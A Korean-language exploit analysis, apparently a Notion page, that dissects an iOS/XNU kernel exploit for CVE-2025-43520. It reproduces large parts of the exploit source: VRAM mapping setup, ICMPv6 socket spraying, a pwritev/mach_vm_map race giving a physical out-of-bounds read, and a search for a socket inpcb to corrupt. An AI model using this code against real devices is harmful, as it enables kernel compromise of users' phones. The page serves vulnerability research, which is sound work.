`mach_make_memory_entry_64` 함수를 사용하여, "memory entry"를 생성하는데, 이는 프로세스에서 나중에 매핑할 수 있는 예약된 메모리 영역을 의미하기도 하며, 해당 memory entry는 `vm_map_copy` 구조체를 포함하고 있으며, 해당 할당을 위한 `vm_map_entry` 구조체를 보유하고 있기도 한다.

단순히 설명하자면, 사용자공간에서 커널이 관리하는 메모리 영역에 대한 Mach 포트 핸들인 `memoryObject`를 얻어온다. `VM_PROT_DEFAULT`의 경우, `(VM_PROT_READ|VM_PROT_WRITE)`을 의미하기에 읽기/쓰기 보호 속성을 가진다.

메모리 영역에 대한 Mach 포트 핸들을 가져오는데 성공하면, 오프셋과 크기를 지정하여 해당 엔트리가 포함하는 범위의 특정 부분을 자기 프로세스에 매핑하도록 `mach_vm_map`을 호출할 수 있다. 

해당 함수의 매개변수를 살펴보면, `VM_FLAGS_ANYWHERE | VM_FLAGS_RANDOM_ADDR`로 인해 자기 프로세스의 무작위 주소에 맵핑될 것이며, `VM_INHERIT_NONE` 로 인해 fork로 생성된 자식 프로세스에선 해당 맵핑이 이어지지 않고, 보호속성은 Read/Write로 될 것이다.

그렇게 생성된 포트 핸들과 새로 생성된 맵핑 주소는 각각 `*port`, `*address`에 지정된다.

```objectivec
void create_physically_contiguous_mapping(mach_port_t *port,
                                          mach_vm_address_t *address,
                                          mach_vm_size_t size) {
    ...
    mach_port_t memoryObject;
    kern_return_t kr = mach_make_memory_entry_64(
        mach_task_self(), &size, (mach_vm_address_t)physicalMappingAddress,
        VM_PROT_DEFAULT, &memoryObject, 0);
    if (!surface) {
        printf("[-] mach_make_memory_entry_64 failed!!!\n");
        FAILURE(0);
    }

    mach_vm_address_t newMappingAddress;
    kr = mach_vm_map(mach_task_self(), &newMappingAddress, size, 0,
                     VM_FLAGS_ANYWHERE | VM_FLAGS_RANDOM_ADDR, memoryObject, 0,
                     0, VM_PROT_DEFAULT, VM_PROT_DEFAULT, VM_INHERIT_NONE);

    if (kr != KERN_SUCCESS) {
        printf("[-] mach_vm_map failed!!!\n");
        FAILURE(0);
    }

    CFRelease(surface);
    *port = memoryObject;
    *address = newMappingAddress;
}
```

### initialize_physical_read_write (part 2)

방금 전에 설명했듯이, 

`pcObject`는 `mach_make_memory_entry_64`에 의해 생성된 /vram 특정 영역에 대한 포트 핸들,
`pcAddress`는 무작위 주소에 새로 생성된 /vram 특정 영역의 맵핑 주소가 된다.

맵핑된 영역에는 `randomMarker`인 **0x1337133845464748**값을 `pcSize`인 0x8000크기만큼 
전체를 채운다. 원본 익스플로잇 코드에서 randomMarker 변수값은 무작위 랜덤 값이여야겠지만, 임의로 보기 편하게 하기위해 특정값으로 고정시켰다.



이후 `freeTarget`, `freeTargetSize`, `freeThreadStart`, `goSync` 등등 전역변수에 값이 입력되거나 세트된다.

따라서 [pe_init (part 3)](https://app.notion.com/p/CVE-2025-43520-352d56448e5d803f87ced29e87ed3e8d?pvs=21) 코드에 대한 설명과 같이 수행된다.

> 
> 
> 
> 비동기적으로 수행할 수 있게끔 쓰레드를 생성한다. 
> 
> `freeThreadStart`, `goSync`,  `raceSync` 가 0이 아닐때에만 `mach_vm_map`을 호출한다.
> 
> `VM_FLAGS_FIXED | VM_FLAGS_OVERWRITE` 옵션을 통해 메모리를 맵핑하는데, 
> `VM_FLAGS_FIXED`는 "정확히 지정한 특정 주소에 매핑하라", 
> `VM_FLAGS_OVERWRITE`는 "해당 주소에 이미 매핑이 있으면 **기존 매핑을 제거하고 덮어써라**"는 의미가 담겨있다. 
> `freeTarget`을 기준으로 고정된 특정 주소에 맵핑된다.
> 

추가로, `mach_vm_map`이 성공적으로 호출되면, 반복 호출되는걸 막기 위해 `raceSync`가 0으로 세트된다.
또, freeTarget = pcAddress로, 무작위 주소에 새로 생성된 /vram 특정 영역의 맵핑 주소라는 점을 유념하자.

```objectivec
void initialize_physical_read_write(uint64_t contiguous_mapping_size) {
    ...
    create_physically_contiguous_mapping(&pcObject, &pcAddress, pcSize);
    printf("[+] pcObject: %u\n", pcObject);
    printf("[+] pcAddress: %#llx\n", pcAddress);
    memset64((void *)pcAddress, randomMarker, pcSize);
    freeTarget = pcAddress, freeTargetSize = pcSize;
    freeThreadStart = 1;
    goSync = 1;
}
```

## pe_v1 (part 3)

`searchMappingNum` , 즉 8번 반복하는데 `mach_vm_allocate` 를 호출하여`searchMappingSize`인 0x8000000 크기만큼 무작위의 가상주소로 할당받는다. 

할당받은 주소는 `searchMappingAddress`이며, 해당 가상주소의 각 페이지마다 첫 8바이트에는 randomMarker인 0x1337133845464748값이 기록된다.

마지막으로, 해당 가상주소는 `searchMappings` 배열에 추가가 된다.

```objectivec
void pe_v1(void) {
...
    initialize_physical_read_write(OOB_PAGES_NUM * PAGE_SIZE); // analyzed
    mach_vm_address_t wiredMapping = 0;
    mach_vm_size_t wiredMappingSize = 1024ULL * 1024ULL * 1024ULL * 3ULL;
    kern_return_t kr = KERN_SUCCESS;
    if (isA18Device) {
        ...
    }
    NSMutableArray *targetInpGencntList = [NSMutableArray new];
    while (true) {
        if (isA18Device) { ... }
        NSMutableArray<NSNumber *> *searchMappings = [NSMutableArray new];
        for (uint64_t s = 0; s < searchMappingNum; s++) {
            mach_vm_address_t searchMappingAddress = 0;
            kr = mach_vm_allocate(mach_task_self(), &searchMappingAddress, searchMappingSize, VM_FLAGS_ANYWHERE | VM_FLAGS_RANDOM_ADDR);
            if (kr != KERN_SUCCESS) {
                printf("[-] mach_vm_allocate failed!!!\n");
                FAILURE(0);
            }
            for (int k = 0; k < searchMappingSize; k += PAGE_SIZE) {
                *(uint64_t *)(searchMappingAddress + k) = randomMarker;
            }
            [searchMappings addObject:@(searchMappingAddress)];
        }
        ...

```

그림으로 표현하면 아래와 같다.



## pe_v1 (part 4)

`socketPorts`, `socketPcbIds` 이름을 가진 새로운 배열을 생성한다.
그리고 `spray_socket` 함수를 총 22528번만큼 반복 수행한다.

```objectivec
void pe_v1(void) {
...
        socketPorts = [NSMutableArray new];
        socketPcbIds = [NSMutableArray new];
        unsigned socketPortsCount = 0;
#define OPEN_MAX 10240
        int maxfiles = OPEN_MAX * 3;
        int leeway = 4096 * 2;
        for (unsigned socketCount = 0; socketCount < (maxfiles - leeway);   // 0 < (22528)
             socketCount++) {
            mach_port_t port = spray_socket(socketPorts, socketPcbIds);
            if (port == -1) {
                printf("[-] Failed to spray sockets: %u\n", socketCount);
                break;
            } else {
                socketPortsCount++;
            }
        }
        ...
```

### spray_socket

1. ICMPv6 소켓을 통해 생성된 디스크립터를 mach port(fileport_t)타입인 `fileport`로 변환시키고, 변환전 기존의 디스크팁터는 닫는다.
2. `proc_info(PROC_PIDFILEPORTSOCKETINFO)`을 시스템콜로 호출하여 해당 소켓의 `socket_fdinf` 구조체 필드값들 가져와 PCB 식별값인  `inp_gencnt`를 추출한다. 추출되는 세부 필드는 `socketInfo->psi.soi_proto.pri_in.insi_gencnt` 같으며, 이는 아래 xnu 코드에 근거하여 커널에서의 `socket->so_pcb->inp_gencnt`와 같다.

```objectivec
// xnu-12377.1.9/bsd/kern/socket_info.c
errno_t
fill_socketinfo(struct socket *so, struct socket_info *si)
{
...
  domain = SOCK_DOM(so);
	type = SOCK_TYPE(so);
	protocol = SOCK_PROTO(so);
	switch (domain) {
	case PF_INET6: {
		struct in_sockinfo *insi = &si->soi_proto.pri_in;
		struct inpcb *inp = (struct inpcb *)so->so_pcb;
		...
		insi->insi_gencnt = inp->inp_gencnt;
		...
```

1. 마지막으로, 변환된 fileport와 PCB 식별값을 각각 `socketPorts`, `socketPcbIds` 이름을 가진 두 NSMutableArray에 적재한다. 이후 fileport가 제대로 변환되었는지 확인하는 목적으로, outputSocketPort 값을 반환한다.

```objectivec
fileport_t spray_socket(NSMutableArray *socketPorts,
                        NSMutableArray *socketPcbIds) {
    
    int fd = socket(AF_INET6, SOCK_DGRAM, IPPROTO_ICMPV6);
    if (fd == -1) {
        printf("[-] socket create failed!!!");
        return fd;
    }

    fileport_t outputSocketPort = 0;
    fileport_makeport(fd, &outputSocketPort);
    close(fd);

    // void *socketInfo = calloc(1, 0x400);
    struct socket_fdinfo *socketInfo = (struct socket_fdinfo *)malloc(sizeof(struct socket_fdinfo));//calloc(1, sizeof(struct socket_fdinfo));
    int r = syscall(SYS_proc_info, PROC_INFO_CALL_PIDFILEPORTINFO, getpid(), PROC_PIDFILEPORTSOCKETINFO, outputSocketPort, socketInfo, 0x400);

    /*
    (lldb) p/x offsetof(socket_fdinfo, psi.soi_proto.pri_in.insi_gencnt)
    (unsigned long) 0x0000000000000110
    */
    // uint64_t inp_gencnt = *(uint64_t *)((uintptr_t)socketInfo + 0x110);
    uint64_t inp_gencnt = socketInfo->psi.soi_proto.pri_in.insi_gencnt;

    [socketPorts addObject:@(outputSocketPort)];
    [socketPcbIds addObject:@(inp_gencnt)];
    return outputSocketPort;
}
```

## pe_v1 (part 5)

8개의 사용자 가상주소영역인  `searchMappings`를 순회하는 반복문이 보인다. 해당 반복문 코드를 살펴보자.

8개 중 하나의 영역을 가리키는 메모리 주소에 대해 `mach_make_memory_entry_64` 함수를 호출함으로써  "memory entry"를 생성하기 때문에, 사용자공간에서 커널이 관리하는 메모리 영역에 대한 Mach 포트 핸들인 `memoryObject`를 얻어온다. 즉, 사용자 VA가 가리키는 메모리에 대한 핸들을 하나 더 만들어준다고 보면 된다.

```objectivec
void pe_v1(void) {
...
        uint64_t startPcbId = socketPcbIds.firstObject.unsignedLongLongValue;
        uint64_t endPcbId = socketPcbIds.lastObject.unsignedLongLongValue;
        printf("[i] socketPortsCount: %u\n", socketPortsCount);
        printf("[i] startPcbId: %llu\n", startPcbId);
        printf("[i] endPcbId: %llu\n", endPcbId);
        bool success = false;
        for (uint64_t s = 0; s < searchMappingNum; s++) { // searchMappingNum = 8;
            mach_vm_address_t searchMappingAddress =
                searchMappings[s].unsignedLongLongValue;
            printf("[i] looking in search mapping: %llu\n", s);
            mach_port_t memoryObject = 0;
            mach_vm_size_t memoryObjectSize = searchMappingSize; // searchMappingSize = 0x8000000;
            kr = mach_make_memory_entry_64(mach_task_self(), &memoryObjectSize, searchMappingAddress, VM_PROT_DEFAULT, &memoryObject, 0);
            if (kr != KERN_SUCCESS) {
                printf("[-] mach_make_memory_entry_64 failed!!!");
                FAILURE(0);
            }
            ...
```

그림으로 표현하면 아래와 같다.


## pe_v1 (part 6)

```objectivec
void pe_v1(void) {
   ...
            surface_mlock(searchMappingAddress, searchMappingSize);
   ...
```

### surface_mlock

이전에는 IOSurfaceMemoryRegion 키와 PurpleGfxMem 값과 달리, 이번에는 IOSurfaceAddress 키값을 전달하여 IOSurfaceCreate를 호출한다. 

```objectivec
void surface_mlock(uint64_t address, uint64_t size) {
    gMlockDict[@(address)] =
        (__bridge id)create_surface_with_address(address, size);
}

IOSurfaceRef create_surface_with_address(uint64_t address, uint64_t size) {
    IOSurfaceRef surface = IOSurfaceCreate((__bridge CFDictionaryRef) @{
        @"IOSurfaceAddress" : @(address),
        @"IOSurfaceAllocSize" : @(size)
    });

    IOSurfacePrefetchPages(surface);

    return surface;
}
```

### IOSurfaceRootUserClient::create_surface

마찬가지로, 아래 함수들을 거치게 되며
`IOSurfaceRootUserClient::s_create_surface`
→ `IOSurfaceRootUserClient::create_surface`
→ `IOSurfaceRoot::createSurface`
→ `IOSurface::init`
→ `IOSurface::parse_properties`

`IOSurface::parse_properties` 에서 IOSurfaceAddress 키 값을 파싱한다.



아래와 같이`IOSurface::parse_properties` 호출하고 나면, `IOSurface::allocate`를 호출한다.
...
→ `IOSurface::init`
→ `IOSurface::allocate`



이전에 PurpleGfxMem 키값에 의해 사용자주소와 맵핑했던 것과는 달리, 맵핑을 수행하지 않는다. 

백킹을 수행하는데, 여기서 백킹이란, 가상 메모리 시스템의 모든 추상 객체로, 단지 "이 자리에 무언가 있다"고 약속하는 명함이라고 보면 된다. 그 약속을 실제로 지켜주는 진짜 데이터가 저장된 무언가가 항상 뒤에 있어야 하는데, 그것을 백킹(backing) / 백킹 스토어(backing store) 라고도 부른다.

따라서 이번에는 맵핑을 수행하지 않고 유저가 이미 가지고 있는 VA를 백킹으로 등록만 한다.

아래 코드를 보다시피 `IOMemoryDescriptor::withAddressRange` 으로 디스크립터를 생성하며, `IOSurface::internalSetMemoryDescriptor` 를 통해 백킹으로 묶는다.  

참고로, xnu-12377.1.9/iokit/IOKit/IOMemoryDescriptor.h 소스코드에 따르면,
 `IOMemoryDescriptor::withAddressRange` 에서의 0x110003 값은 kIOMemoryThreadSafe, kIOMemoryPersistent, kIODirectionOutIn 비트값이 세트된 값이다. 이는 각각 다음 의미를 가진다.

`0x00010000` — `kIOMemoryPersistent`

> 프로세스가 사라져도 백킹이 유지될 수 있게 해 달라
> 

`0x00100000` — `kIOMemoryThreadSafe`

> 이 디스크립터의 내부 상태를 동시 접근으로부터 보호하라
> 

`0x00000003` — `kIODirectionOutIn`

> 3 = kIODirectionOutIn (양방향, RW)
> 



여기까지만 살펴봐도 되겠지만, 조금만 더 알아보자.

다음으로, `IOSurface::allocate` 호출 후에는 `IOSurfaceRoot::set_surfaceid_with_handle`를 호출한다. IOSurfaceRoot가 가지고 있는 전역 IOSurface 배열의 슬롯에 IOSurface 포인터를 등록하며, 여기까지가 `IOSurface::init` 살펴본 내용이 되겠다. 





이후에는 `IOSurfaceRootUserClient::create_surface` 코드를 보면 알게 되겠지만, 생성된 `IOSurface` 는`IOSurfaceClient::init`→`IOSurfaceRootUserClient::set_surface_handle`에서 surface_id 인덱스에 해당되는  `m_IOSurfaceClientArrayPointer` 슬롯에 IOSurfaceClient 객체를 등록한다.
(참고로, surface_id는 이전에 살펴봤던 `IOSurface::init` → `IOSurfaceRoot::alloc_surfaceid`에서 surface_id를 처음 발급받는다.) 





 

### IOSurfaceRootUserClient::prefetch_pages (part 1)

유저랜드에서의 `IOSurfacePrefetchPages` 호출은
실질적으론 커널의 `IOSurfaceRootUserClient::prefetch_pages` 함수를 호출하게 만든다.

```objectivec
IOSurfacePrefetchPages(surface);
```

내부적으로 a2인 surface_id를 넘기게 되는데, 
IOSurfaceRootUserClient 객체의 `m_IOSurfaceClientArrayPointer` 슬롯에서 surface_id에 해당되는 IOSurfaceClient를 찾는다. 해당되는 IOSurfaceClient 객체를 발견하면, IOSurface 객체를 인자로 념겨 `IOSurface::prepare`, `IOSurface::complete` 를 호출한다.

```objectivec
__int64 __fastcall IOSurfaceRootUserClient::prefetch_pages(IOSurfaceRootUserClient *this, uint32_t a2)
{
  __int64 v4; // x20
  IOSurfaceClient *v5; // x21

  v4 = 3758097090LL;
  j__IOLockLock_59(this->lock);
  if ( a2 )
  {
    if ( this->i_surfaceClientCapacity > a2 )
    {
      v5 = this->m_IOSurfaceClientArrayPointer[a2];
      if ( v5 )
      {
        v4 = IOSurface::prepare(v5->surface);
        if ( !(_DWORD)v4 )
          IOSurface::complete(v5->surface);
      }
    }
  }
  j__IOLockUnlock_60(this->lock);
  return v4;
}
```

### IOSurface::prepare

`IOSurface::prepare`는 내부적으로 `IOGeneralMemoryDescriptor::prepare` 를 호출하며,



### IOGeneralMemoryDescriptor::prepare

`wireVirtual()`에 의해 실제로 페이지인을 진행하며 wireCount를 1 증가시킨다. 여기서 wire라는 의미는 페이지를 RAM 에서 못 빼게 잠그는 것을 의미한다.

추가로, “페이지 인”은 디스크/스왑에 있던 페이지를 RAM 으로 다시 가져오는 것을 의미하며, 그 반대인 “페이지 아웃”은 안 쓰는 페이지를 RAM 에서 내쫓는 것을 의미한다.

```c
// /xnu-12377.1.9/iokit/Kernel/IOMemoryDescriptor.cpp

/*
 * prepare
 *
 * Prepare the memory for an I/O transfer.  This involves paging in
 * the memory, if necessary, and wiring it down for the duration of
 * the transfer.  The complete() method completes the processing of
 * the memory after the I/O transfer finishes.  This method needn't
 * called for non-pageable memory.
 */

IOReturn
IOGeneralMemoryDescriptor::prepare(IODirection forDirection)
{
	IOReturn     error    = kIOReturnSuccess;
	IOOptionBits type = _flags & kIOMemoryTypeMask;
	// ...

	if (kIOMemoryTypeVirtual == type || kIOMemoryTypeVirtual64 == type || kIOMemoryTypeUIO == type) {
		if ((forDirection & kIODirectionPrepareAvoidThrottling) && NEED_TO_HARD_THROTTLE_THIS_TASK()) {
			error = kIOReturnNotReady;
			goto finish;
		}
		error = wireVirtual(forDirection);
	}
	
	if (kIOReturnSuccess == error) {
		if (1 == ++_wireCount) {
		...
	// ...
	return error;
}
```

### IOGeneralMemoryDescriptor::wireVirtual

플래그에 `UPL_SET_IO_WIRE`/`UPL_SET_LITE`를 세트하고 UPL을 생성하는 것을 볼 수 있다. 여기서 UPL(**Universal Page Lists**)이란 백킹 스토어(backing store)로부터 채워지거나 백킹 스토어로 커밋될 페이지 집합을 의미한다. UPL은 이러한 페이지의 속성(WIMG, 권한 등)을 제어하며, 페이지 내용을 채우거나 동기화하는 데에도 사용된다. 

쉽게 말하자면, 어떤 가상 영역에 대해 "이 영역을 구성하는 물리 페이지들이 누구누구다" 를 추상화한 객체라고 보면 될 듯 싶다.

UPL 생성은 케이스에 따라 다양하게 처리할 수 있는데

- VM map 처리에서는 `vm_map_create_upl()`을 호출
- VM object 처리에서는 `vm_object_[upl/iopl]_request`를 호출
- 페이저는 `memory_object_[upl/iopl]_request`를 호출.(`[vm/memory]_object_super_upl_request` 변형도 존재함)
- 마지막으로, VFS의 `cluster_[write/read]_direct`에서 사용되는 `vector_upl_create()`도 존재함.

```c
IOGeneralMemoryDescriptor::wireVirtual(IODirection forDirection)
{
	IOOptionBits type = _flags & kIOMemoryTypeMask;
	IOReturn error = kIOReturnSuccess;
	//...
	if (_wireCount) {
		if ((kIOMemoryPreparedReadOnly & _flags) && !(UPL_COPYOUT_FROM & uplFlags)) {
			OSReportWithBacktrace("IOMemoryDescriptor 0x%zx prepared read only",
			    (size_t)VM_KERNEL_ADDRPERM(this));
			error = kIOReturnNotWritable;
		}
	} else {
		//...
		uplFlags |= UPL_SET_IO_WIRE | UPL_SET_LITE;
		//...
		for (UInt range = 0; mdOffset < _length; range++) {
			//...
			// Iterate over the current range, creating UPLs
			while (numBytes) {
				//...
				upl_control_flags_t ioplFlags = uplFlags;
				//...
				if (_memRef) {
					memory_object_offset_t entryOffset;

					entryOffset = mdOffset;
					if (byteAlignUPL) {
						entryOffset = (entryOffset - memRefEntry->offset);
					} else {
						entryOffset = (entryOffset - iopl.fPageOffset - memRefEntry->offset);
					}
					if (ioplSize > (memRefEntry->size - entryOffset)) {
						ioplSize =  ((typeof(ioplSize))(memRefEntry->size - entryOffset));
					}
					error = memory_object_iopl_request(memRefEntry->entry,
					    entryOffset,
					    &ioplSize,
					    &iopl.fIOPL,
					    baseInfo,
					    &numPageInfo,
					    &ioplFlags,
					    tag);
				} else if ((theMap == kernel_map)
				    && (kernelStart >= io_kernel_static_start)
				    && (kernelStart < io_kernel_static_end)) {
					error = io_get_kernel_static_upl(theMap,
					    kernelStart,
					    &ioplSize,
					    &iopl.fPageOffset,
					    &iopl.fIOPL,
					    baseInfo,
					    &numPageInfo,
					    &highPage);
				} else {
					assert(theMap);
					error = vm_map_create_upl(theMap,
					    startPage,
					    (upl_size_t*)&ioplSize,
					    &iopl.fIOPL,
					    baseInfo,
					    &numPageInfo,
					    &ioplFlags,
					    tag);
				}

				//...
	return error;
}
```

### IOSurface::complete

`IOSurface::complete`는 내부적으로 `IOGeneralMemoryDescriptor::complete` 를 호출하며,



### IOGeneralMemoryDescriptor::complete

UPL이 소멸된다. wireCount를 감소시키며, 일반적으로 `upl_commit` 또는 `upl_abort` 중 하나를 통해 생명주기를 마치게 된다.
- **Commit**: 페이지를 백킹 스토어로 flush하고, 가능하면 해제한다.
- **Abort**: 동기화하지 않고, 페이지를 비활성화한다.

```c
IOReturn
IOGeneralMemoryDescriptor::complete(IODirection forDirection)
{
	IOOptionBits type = _flags & kIOMemoryTypeMask;
	ioGMDData  * dataP;
	//...
	do{
		//...
		_wireCount--;
		if (!_wireCount || (kIODirectionCompleteWithDataValid & forDirection)) {
			ioPLBlock *ioplList = getIOPLList(dataP);
			UInt ind, count = getNumIOPL(_memoryEntries, dataP);
			if (_wireCount) {
				//...
			} else {
				//...
				// Only complete iopls that we created which are for TypeVirtual
				if (kIOMemoryTypeVirtual == type || kIOMemoryTypeVirtual64 == type || kIOMemoryTypeUIO == type) {
					for (ind = 0; ind < count; ind++) {
						if (ioplList[ind].fIOPL) {
							if (dataP->fCompletionError) {
								upl_abort(ioplList[ind].fIOPL, 0 /*!UPL_ABORT_DUMP_PAGES*/);
							} else {
								upl_commit(ioplList[ind].fIOPL, NULL, 0);
							}
							upl_deallocate(ioplList[ind].fIOPL);
						}
					}
				//...
	return kIOReturnSuccess;
}
```

### IOSurfaceRootUserClient::prefetch_pages (part 2)

`IOGeneralMemoryDescriptor::prepare` 에서 `wireVirtual()`에 의해 실제로 페이지인을 진행하면서 페이지를 RAM 에서 못 빼게 잠굴려고 wire해두었다.

하지만 이후에 `IOGeneralMemoryDescriptor::complete` 에 의해 wire를 다시 해제해주었기 때문에, 메모리가 부족해지면 언제든지 RAM에서 회수될 수 있을 것이다. 

정리하자면, IOSurfaceAddress 가상주소에 있는 데이터는 RAM 에 올라왔지만 wire로는 안잡혀있는 상태라고 보면 될 듯 싶다.

## pe_v1 (part 7)

```objectivec
void pe_v1(void) {
   ...
            // surface_mlock(searchMappingAddress, searchMappingSize);
            mach_vm_offset_t seekingOffset = 0;
            // fix mach_vm_map err on free thread, we'd try to map outside mo
            while (seekingOffset <= searchMappingSize - pcSize) {
                kr = physical_oob_read_mo(memoryObject, seekingOffset, OOB_SIZE,
                                          OOB_OFFSET, readBuffer);
                if (kr == KERN_SUCCESS) {
                    // ...
                }
                seekingOffset += PAGE_SIZE;
            }
   ...
```

### physical_oob_read_mo

이전에 calloc으로 0xf00(3840)크기만큼 할당받은 buffer를 인자로 받는다.

buffer의 첫 8바이트에는 0x41.. 마커를 새기고, pcAddress 가상주소의 2번째 페이지의 첫 8바이트에는 0x42.. 마커를 새긴다. (원본 익스플로잇 코드에서는 randomMarker의 특정 랜덤 값으로 마커를 새기지만, 마찬가지로 쉽게 알아보기 위해 임의로 수정하였으며, 레이스가 성공된 케이스만을 확실하게 잡기 위해 getchar() 코드를 임의로 넣었다.)

그런 다음, 레이싱이 시작된다.

```c
kern_return_t physical_oob_read_mo(mach_port_t memoryObject,
                                   mach_vm_offset_t memoryObjectOffset,
                                   mach_vm_size_t size, mach_vm_offset_t offset,
                                   void *buffer) {
                                   // args
                                   // buffer = calloc(1, OOB_SIZE);
                                   // memoryObjectOffset = 0, 0x4000, 0x8000...
                                   // size = OOB_SIZE(0xf00)
                                   // offset = OOB_OFFSET(0x100)
                                   // pcAddress = (address mapped to random user region within specific area of VRAM)
                                   // pcSize = 0x8000
                                   // memoryObject was created by mach_make_memory_entry_64 function in pe_v1 
                                   // mach_make_memory_entry_64(mach_task_self(), &memoryObjectSize, searchMappingAddress, VM_PROT_DEFAULT, &memoryObject, 0);
    targetObject = memoryObject;
    targetObjectOffset = memoryObjectOffset;
    iov.iov_base = (void *)(pcAddress + 0x3f00);
    iov.iov_len = offset + size;
    *(uint64_t *)buffer = MARKER_41;
    *(uint64_t *)(pcAddress + 0x3f00 + offset) = MARKER_42;

    bool readRaceSucceeded = false;
    int w = 0;
    for (int tryIdx = 0; tryIdx < highestSuccessIdx + 100; tryIdx++) {
        raceSync = 1;
        w = pwritev(readFd, &iov, 1, 0x3f00);
        while (raceSync == 1) ;
        kern_return_t kr = mach_vm_map(mach_task_self(), &pcAddress, pcSize, 0,
                        VM_FLAGS_FIXED | VM_FLAGS_OVERWRITE, pcObject, 0, 0,
                        VM_PROT_DEFAULT, VM_PROT_DEFAULT, VM_INHERIT_NONE);
        if (kr != KERN_SUCCESS) {
            printf("[+] mach_vm_map failed!!!\n");
            FAILURE(0);
        }

        if (1) {    // Originally code was 'if (w == -1) {', but NOT strictly required for the race condition; because on VMApple. it doesn't always return -1 that means always succeeded..
            int r = pread(readFd, buffer, size, 0x3f00 + offset);
            uint64_t marker = *(uint64_t *)buffer;
            if (marker != MARKER_42 && marker != MARKER_41 && marker != randomMarker) {
                readRaceSucceeded = true;
                getchar();
```

ENABLE_HELPER 매크로 안의 코드를 작성하여 pcAddress 가상주소가 물리 메모리의 어느 주소에 맵핑되는지 추가로 작성하였다.



이제 결과를 한번 살펴보자.
레이싱이 시작되기전의 그림은 아래와 같을 것이다.



그리고 레이스가 성공할때까지의 ENABLE_HELPER 매크로를 포함한 코드 실행 결과를 살펴봤을때
맵핑되는 vram 물리메모리 주소는 **0x8bdf4c000**이며, 사용자영역의 주소는 **0xbfe64c000**이다.



Physical OOB Read가 발생하기전, 즉 원래라면, 사용자 영역과 맵핑되어지는 물리 주소는 아래와 같아야되지만

```c
[사용자 VA 주소] <-> [물리 주소]
0xbfe64c000 <-> 0x8bdf4c000 (vram 영역 내부)
0xbfe650000 <-> 0x8bdf50000 (vram 영역 내부)
```

레이싱 코드 실행 이후부터는 달라진다.

```c
(1, 2, 3 ... n번째 시도; tryIdx = 0, 1, 2 ...)
[사용자 VA 주소] <-> [물리 주소]
0xbfe64c000 <-> 0x82411c000
0xbfe650000 <-> 0x80d064000
```

그리고 레이스 코드 중

`kern_return_t kr = mach_vm_map(mach_task_self(), &pcAddress, pcSize, 0,
VM_FLAGS_FIXED | VM_FLAGS_OVERWRITE, pcObject, 0, 0,
VM_PROT_DEFAULT, VM_PROT_DEFAULT, VM_INHERIT_NONE);`

위 코드 실행 전과 후에 따라 맵핑되는 물리메모리 주소가 달라지며, 
실행 후에는 원래의 /vram 맵핑 영역 주소로 다시 복원된다. 

xnuspy를 이용하여 `cluster_align_phys_io`,  `cluster_write_contig`를 후킹하면서 물리메모리를 읽어오는 장소는 총3가지 케이스를 발견할 수 있었는데,

1. `searchMappings` NSMutableArray 배열의 8가지 영역 중 어느 한 영역에 있으며, 8192페이지 중 어느 한 페이지 (`cluster_write_contig` / `cluster_align_phys_io` 호출을 하지 않은 케이스)



1-2. `searchMappings` NSMutableArray 배열의 8개 영역 중 어느 한 영역에 있으며, 8192페이지 중 어느 한 페이지 (`cluster_write_contig` 호출을 한 케이스; 읽어들인 헥스덤프 주소는 **0x824120000**)





1. 초기 `create_physically_contiguous_mapping` 함수에서 /vram 영역에 맵핑되었던 물리영역 중 2번째 페이지 (`cluster_write_contig` 호출을 한 케이스; 읽어들인 헥스덤프 주소는 **0x8bdf50000**)





1. /vram 영역에도 속하지 않고, `searchMappings` NSMutableArray 배열의 8개 영역 중 어느 한 곳도 속하지 않는 케이스(`cluster_write_contig` 호출을 한 케이스; 읽어들인 헥스덤프 주소는 **0x80d068000**)





따라서 `readRaceSucceeded` 가 True로 세트되는 경우는 위 3가지 케이스 중 마지막인 3번째에 해당된다.
True로 세트되면, 반복문을 빠져나가고 KERN_SUCCESS를 반환한다.



## 취약점 발생 원인 따라가보기

레이스를 통해 physical oob read가 되는 과정은 아래와 같이 사진으로 나타낼 수 있을 것 같다.


## pe_v1 (part 8)

`physical_oob_read_mo`에서 KERN_SUCCESS를 반환하면, `find_and_corrupt_socket`를 수행한다.

`find_and_corrupt_socket`를 살펴보도록 하자.

```objectivec
void pe_v1(void) {
   ...
            // surface_mlock(searchMappingAddress, searchMappingSize);
            mach_vm_offset_t seekingOffset = 0;
            // fix mach_vm_map err on free thread, we'd try to map outside mo
            while (seekingOffset <= searchMappingSize - pcSize) {
                kr = physical_oob_read_mo(memoryObject, seekingOffset, OOB_SIZE,
                                          OOB_OFFSET, readBuffer);
                if (kr == KERN_SUCCESS) {
                    if (find_and_corrupt_socket(memoryObject, seekingOffset,
                                                readBuffer, writeBuffer,
                                                targetInpGencntList,
                                                false) == KERN_SUCCESS) {
                        success = true;
                        break;
                    }
                }
                seekingOffset += PAGE_SIZE;
            }
   ...
```

### find_and_corrupt_socket

`pe_v1` 함수에서 호출되는 케이스의 경우, `physical_oob_read_mo`에서 읽었던 `readBuffer`에서 `executableName`을 통해 inpcb를 찾는다. 

찾지 못하면, 다시한번 `pe_v1`에서 `seekingOffset`을 PAGE_SIZE만큼 증가시키고 다시한번 `physical_oob_read_mo` 호출해서 `readBuffer`를 읽고 다시 찾는다.

```c
int find_and_corrupt_socket(mach_port_t memoryObject, mach_vm_offset_t seekingOffset, void *readBuffer, void *writeBuffer, NSMutableArray *targetInpGencntList, bool doRead) {
    if (doRead) {
        physical_oob_read_mo_with_retry(memoryObject, seekingOffset, OOB_SIZE, OOB_OFFSET, readBuffer);
    }

    int searchStartIdx = 0;
    bool targetFound = false;
    uint64_t pcbStartOffset = 0;
    uint64_t corrupted_filter_marker = 0x0000ffffffffffff;
    void* found = NULL;
    do {
        found = memmem(readBuffer + searchStartIdx, OOB_SIZE - searchStartIdx, executableName, strlen(executableName));
        if (found) {
            // original implementation would apply a mask to the oracle ptr to get pcbStartOffset
            // but that approach doesn't work on older iOS versions, so we search for the corrupted filter
            // and calculate pcbStartOffset from there, which works on all versions 
            uint64_t found_offset = (uint8_t*)found - (uint8_t*)readBuffer;
            void* filter_found = reverse_memmem(found, found_offset, &corrupted_filter_marker, sizeof(corrupted_filter_marker));
            if (filter_found != NULL) {
                uint64_t filter_offset = (uint8_t*)filter_found - (uint8_t*)readBuffer;
                if (filter_offset >= off_inpcb_inp_depend6_inp6_icmp6filt + 0x8) {
                    pcbStartOffset = filter_offset - (off_inpcb_inp_depend6_inp6_icmp6filt + 0x8);
                    targetFound = true;
                    break;
                }
            }
        }
        searchStartIdx += 0x400;
    } while (found != NULL && searchStartIdx < OOB_SIZE);
    ...
}
```

## 소켓의 inpcb를 손상시켜 커널 읽기/쓰기 구축하기

